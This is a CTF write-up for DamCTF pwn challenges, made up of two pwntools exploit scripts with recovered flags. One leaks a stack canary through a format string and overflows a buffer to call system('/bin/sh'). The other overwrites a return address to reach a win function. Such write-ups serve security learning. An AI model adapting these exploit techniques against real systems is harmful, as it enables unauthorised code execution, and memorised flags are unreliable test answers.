

## pwn

### cookie-monster
warmup

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'

# 格式化字符串？

p = remote('chals.damctf.xyz', 31312)
e = ELF('./cookie-monster')
pld1 = b'%15$p'
p.sendlineafter(b'your name: ', pld1)
p.recvuntil(b'Hello ')
canary = int(p.recv(10).decode(), 16)

pld2 = b'a'*32
pld2 += p32(canary)
pld2 = pld2.ljust(0x2c+4, b'a')
pld2 += p32(e.plt['system'])

binsh = next(e.search(b'/bin/sh'))# 0x8048770
pld2 += p32(0xdeadbeef) + p32(binsh)

p.sendline(pld2)

p.interactive()

# dam{s74CK_c00k13S_4r3_d3L1C10Us}
```

### magic-marker

```python
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'

# maze game
p = remote('chals.damctf.xyz', 31313)

p.sendlineafter(b'What would you like to do?\n', b'jump up and down')

# figure out where we are
p.sendlineafter(b'q - give up):', b'm')
p.sendlineafter(b'q - give up):', b'm')
nowi, nowj = 0, 0
p.recvline()
tmp = p.recv(4)
while b'*' not in tmp:
    if nowj < 39:
        nowj += 1
    else:
        p.recvline()
        p.recvline()
        nowi += 1
        nowj = 0
    tmp = p.recv(4)

p.success(str((nowi, nowj)))

for _ in range(39-nowi):
    p.sendlineafter(b'q - give up):', b'x')
    p.sendlineafter(b'What would you like to write?\n', b'a'*28 + p32(2))
    p.sendlineafter(b'q - give up):', b's')

for _ in range(40-nowj):
    p.sendlineafter(b'q - give up):', b'x')
    p.sendlineafter(b'What would you like to write?\n', b'a'*28 + p32(4))
    p.sendlineafter(b'q - give up):', b'd')

# Let's checksec the current position
p.sendlineafter(b'q - give up):', b'm')

win_addr = 0x400fa0

# try
# pause()
p.sendlineafter(b'q - give up):', b'd')
p.sendlineafter(b'q - give up):', b'x')
p.sendlineafter(b'What would you like to write?\n', b'a'*28 + p32(4))
p.sendlineafter(b'q - give up):', b'd')
p.sendlineafter(b'q - give up):', b'x')
# overwrite return address
p.sendlineafter(b'What would you like to write?\n', b'a'*8 + p64(win_addr))
p.sendlineafter(b'q - give up):', b'q')
p.interactive()

# dam{m4rvellOU5lY_M49n1f1cen7_m491C_m4rker5_M4KE_M4zE_M4n1PuL471oN_M4R91N4llY_M4L1c1Ou5}
# 就这？🐶
```




